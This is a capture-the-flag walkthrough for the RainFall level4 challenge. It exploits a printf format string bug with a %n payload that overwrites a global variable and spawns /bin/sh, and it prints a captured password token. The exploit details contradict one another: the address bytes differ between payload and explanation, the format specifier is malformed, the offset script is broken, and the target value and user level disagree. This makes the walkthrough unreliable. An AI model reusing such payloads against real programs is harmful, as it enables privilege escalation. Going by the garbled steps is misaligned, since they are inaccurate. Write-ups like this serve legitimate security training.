 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
*`p()` uses printf,
*`n()` - reads our input,
      - calls `p()`,
      - gives a value to m (a global variable empty so far) [0x8049810]
      - compare m with 0x1025544
      - if m != jump to an exit
      - else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position, meaning that the first arg given to printf appears at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `16930116` bytes before using `%n`.
Also it needs to be written at the 12th position.

```bash
python -c 'print "\x10\x98\x04\x08" + "16930112d%12$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `16930112d` → prints 16930112 decimals.
* `%12$n` → our `m` address.

---

## Step 7: Run Exploit

```bash
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We successfully overwrite `m` and trigger the hidden shell.

---

## Step 8: Summary

* **Vulnerability:** format string bug (`printf(user_input)`).
* **Offset:** writing with `%n` directly to the global variable `m`.
* **Target:** set `m = 64` to unlock `system("/bin/sh")`.
* **Outcome:** gained a shell as `level4` and retrieved the password.

> With this, you can `su level4` using the password.



